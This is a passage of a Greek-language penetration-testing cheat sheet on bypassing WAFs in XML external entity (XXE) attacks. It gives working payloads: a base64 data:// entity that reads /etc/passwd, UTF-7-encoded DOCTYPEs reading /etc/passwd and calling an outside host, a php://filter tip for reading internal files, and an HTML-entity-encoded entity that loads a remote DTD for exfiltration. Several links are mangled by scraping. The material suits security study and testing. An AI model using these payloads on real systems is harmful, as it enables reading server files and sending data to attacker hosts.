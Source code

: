 Ένα άλλο παράδειγμα μπορεί να βρεθεί [εδώ](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).

## Παράκαμψη WAF και προστασίες

### Base64
```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
Αυτό λειτουργεί μόνο εάν ο XML διακομιστής αποδέχεται το πρωτόκολλο `data://`.

### UTF-7

Μπορείτε να χρησιμοποιήσετε την \[**"Συνταγή Κωδικοποίησης**" του cyberchef εδώ ]\(\[[https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28%27UTF-7%20%2865000%29%27%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) μετατροπή σε UTF-7.
```xml
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
### Παράκαμψη πρωτοκόλλου File:/

Αν η ιστοσελίδα χρησιμοποιεί PHP, αντί να χρησιμοποιήσετε `file:/`, μπορείτε να χρησιμοποιήσετε τα **php wrappers** `php://filter/convert.base64-encode/resource=` για να **έχετε πρόσβαση σε εσωτερικά αρχεία**.

Αν η ιστοσελίδα χρησιμοποιεί Java, μπορείτε να ελέγξετε το [**πρωτόκολλο jar**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entities

Κόλπο από το [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
Μπορείτε να δημιουργήσετε μια **οντότητα μέσα σε μια οντότητα** κωδικοποιώντας τη με **html entities** και στη συνέχεια να την καλέσετε για να **φορτώσετε ένα dtd**.\
Σημειώστε ότι οι **HTML Entities** που χρησιμοποιούνται πρέπει να είναι **αριθμητικές** (όπως \[σε αυτό το παράδειγμα]\([https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,%27Numeric%20entities%27%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B\)%5C)).
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
<env>&exfil;</env>
</data>
```
